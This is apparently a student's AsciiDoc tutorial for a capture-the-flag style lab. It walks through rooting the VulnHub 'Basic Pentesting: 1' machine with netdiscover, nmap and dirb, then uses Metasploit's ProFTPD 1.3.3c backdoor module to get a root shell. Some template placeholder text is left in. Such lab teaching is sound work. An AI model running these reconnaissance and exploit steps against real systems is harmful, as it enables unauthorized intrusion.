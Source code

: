 = Basic Penetration Testing

Author: Matt Hoff

== Intro

Describe the goals and purpose of the tutorial here.
The goals and purpose of this exercise are to introduce the
reader to the world of penetration testing using an easy vulnerable
virtual machine. They will a few different tools inside kali to "boot2root"
the machine.


== Prerequisites

The "*" is a bulleted list.

* VirtualBox
* Kali Virtual Machine
* Basic Pentesting: 1 by Josiah Pierce from https://www.vulnhub.com/entry/basic-pentesting-1,216/[Vuln Hub]

== Instructions

Guide the person through the steps. Starting a line with a period is an automatically numbered list.

=== Setup Vulnerable Machine and Kali

. Download and install vulnerable machine.
. To install it just double click ova file in the folder to import virtual appliance
. Click the "Reinitialize the MAC address of all network cards", sand then click import.
+
image::Import.png[]
. In Virtualbox make sure that the network adapter for both of the VMs are set to "Host-only Adapter"
. In Virtualbox start the Kali Linux and the csec
. For the remainder of this lab we will ignore csec and use the Kali VM for the rest of this challenge

=== Info Gathering
. Open a terminal cause this is where most of the attacks will take place
. First we have to find out csec's IP address
.. We will be using a ARP reconnaissance tool called "netdiscover"
.. Use the command *ifconfig* to find the IP address for the Kali VM and keep note of it.
.. Run this command to find the IP address for the csec VM replacing the IP address with the broadcast address of the Kali VM:
.. Look at the addresses of the machines and the address that isn't the one of the Kali VM
 and the one that isnt ????.????.????.1 since that would be your router will be the victim's IP Address.
 Keep note of that. I will just put it in a text document. If you want you can use a
 program to keep track of the info gathering.
+
image::netdiscover.png[]
....
netdiscover -i eth0 -r 192.168.56.0/24
....

Please note that whenever I use the IP Address 192.168.56.102 you should be using the
IP address that you found running that command

. Now that we have the IP Address we will find out what we attack by using NMAP.
NMAP is the most infamous of all port scanning tools. I have found a NMAP command with useful
flags that I like to use, but if you want you can search the web for other flags.
Here is an explanation of the flags I gave NMAP:

 -v: verbose output
 -sV: Probe the ports and report back the service/version info
 -A: Enable OS detection, version detection, script scanning, and traceroute
 --reason: Why is the port is a particular state
 -p-: All ports
 -oN Desktop/scan.txt: Export results in a normal text file and store it on the desktop

....
nmap -v -sV -A --reason -p- 192.168.56.102 -oN Desktop/scan.txt
....

If you examine the result you will see 3 ports are open. Those are 21 for a FTP server
using ProFTPD 1.3.3c, 22 for SSH using OpenSSH, and 80 for an Apache webserver over http.
Seeing this we have a few options we can try.

=== Investigation

We will start with the webserver to see if we can figure anything out.

. Open Firefox in Kali
+
image::firefox.png[]

. Enter victims IP address in url.
+
image::http.png[alt]

Well what the heck you see a landing page saying "It works!", but nothing more.
It is really weird to have webserver but nothing on it.

. Next we will see if they have an directories on the server using the command *dirb*.
Again I used flags just to make this a little easier.

 -i: Not case sensitive
 -o Desktop/web.txt: Store output in a web.txt on the desktop.
+
....
dirb http://192.168.56.102/ /usr/share/dirb/wordlist/common.txt -i -o Desktop/web.txt
....
+
Looking at the info we got there is a "secret" directory listing some WordPress content.
You may be able to find info here, but that is not what I am going to show you.

. With the webserver not giving us the info we want we will next try the FTP server.
Since we have a version from the NMAP scan we can just do a quick google search of it.
You will notice one of the first few results is a link to rapid7 showing a backdoor.
This is the jackpot we needed. They also walk you through the proccess of executing it.

+
image::FTP.png[alt]

=== Attack

. Launch MetaSploit
+
image::metasploit.png[alt]

. Use the commands rapid7 says to execute the backdoor:
+
....
use exploit/unix/ftp/proftpd_133c_backdoor
show targets
set target 0
show options
set RHOST 192.168.56.102
....
. To check you are root enter the command *whoami*. It should just come back root.

+
image::root.png[alt]



+
Congrats you now have root access to the victim's computer. While here you can snoop
around if you would like.


. Step five. Compile with the following command:
+
```
asciidoctor-pdf tutorial.adoc
```

== Challenge

Provide some meaningful ways for the learner to apply their knowledge in a new way.

. There are other ways to exploit this machine so explore.
.. For instance you could look at the wordpress plugins or brute force the SSH login.
. Also just go out and get other Vulnerable Virtualmachines and attempt to "hack" them. Do not hack anything
that you should not be hacking.

== Reflection

Provide some thought questions that help the learner make sense of how the tutorial fits in the bigger picture.
